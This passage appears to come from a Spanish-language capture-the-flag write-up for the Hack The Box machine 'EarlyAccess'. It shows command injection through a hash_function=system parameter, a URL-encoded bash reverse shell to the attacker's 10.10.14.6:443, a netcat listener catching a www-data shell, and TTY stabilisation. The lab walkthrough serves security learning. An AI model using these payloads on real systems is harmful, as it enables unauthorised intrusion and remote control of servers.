 Tal vez si encontramos una forma de manipular esta data con <i>Burpsuite</i> podremos ganar
acceso al sistema.

```powershell
action=hash&redirect=true&password=id&hash_function=system&debug=asd
```

<img
src='https://res.cloudinary.com/djc1umong/image/upload/v1686605969/early_hash_pwn_qn3peo.webp'
width={481}
height={93}
/>

Queda darnos una reverse shell.

```powershell
action=hash&password=bash+-c+"bash+-i+>%26+/dev/tcp/10.10.14.6/443+0>%261"&hash_function=system&debug=1
```

ponemos en <i>url encode</i> para evitarnos errores y escuchamos en nuestro local con netcat.

```powershell
leo@nardo$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.11.110] 49100
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ hostname -I
hostname -I
172.18.0.102
```

Vemos que estamos en un contenedor, ya que nuestro target es <i>10.10.11.110</i>,
ahora tenemos acceso al sistema antes de continuar hacemos un tratamiento de la consola con <i>script</i>.

```powershell
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ script /dev/null -c bash
<rlyaccess.htb/dev/actions$ script /dev/null -c bash
Script started, file is /dev/null
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
zsh: suspended nc -nlvp 443
oxdf@hacky$ stty raw -echo ; fg
nc -lnvp 443
reset xterm
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$
```

### Usuario game-adm | Shell

Nos dirigimos a <i>/home</i>, visualizamos un usuario <i>www-adm</i> y un archivo <i>.wgetrc</i>
que puede ser interesante.
